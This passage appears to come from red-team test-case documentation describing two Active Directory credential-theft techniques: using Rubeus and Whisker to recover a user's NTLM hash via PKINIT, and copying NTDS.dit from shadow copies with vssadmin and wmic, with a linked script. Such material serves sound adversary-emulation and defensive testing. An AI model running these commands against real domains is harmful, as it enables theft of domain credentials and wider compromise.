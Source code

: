 UnPAC the Hash is an attack technique for retrieving the NTLM hash of a target user via PKINIT.

https://github.com/GhostPack/Rubeus

### Prerequisites

- compiled binary 
	- using Visual Studios: -> load solution file -> set to "Release" -> build
- The certificate for the target user
  - This can be set on the target user using a tool like [Whisker](https://github.com/eladshamir/Whisker) (`cmd> Whisker.exe add /target:{{ user }}`).

### Guidance

```
cmd> Rubeus.exe asktgt /getcredentials /user:"{{ domain_user }}" /certificate:"{{ certificate_b64 }}" /password:"{{ certificate_password }}" /domain:"{{ domain_fqdn }}" /dc:"{{ domain_controller }}" /show
```

### Cleanup

If you generated a certificate for the user with Whisker (or a similar tool), delete the certificate. For Whisker, the command is: `cmd> Whisker.exe clear /target:{{ user }}`

### References

- https://shenaniganslabs.io/2021/06/21/Shadow-Credentials.html
- https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash

## Extract NTDS.dit Credentials - via existing shadow (no CLI)

Copy the required NTDS files from an existing shadow(s) without having the physical paths in the command

### Prerequisites

- Elevated command execution on a DC
- Sufficient free disk space on the DC (verify size of ntds.dit file against free disk space)
- Download script: https://github.com/2XXE-SRA/payload_resources/blob/master/powershell/ntdscopy.ps1
    - If the NTDS file is using a nonstandard path, change the relevant section in the script (`$ditpath = ...`)
- If there are no shadows containing the the appropriate SYSTEM and NTDS.dit files, create them
  - for example `vssadmin create shadow /for=c: {{ drive_letter }}` and `wmic shadowcopy call create Volume="{{ drive_letter }}` can be used
  - Note: this activity is not part of the test case itself, so it should not affect the outcome
  - Note: sometimes the NTDS is installed on a different drive from the Windows install
    - for such cases, locate the drive containing the NTDS.dit file via `reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters` then create a shadow for that drive

### Guidance
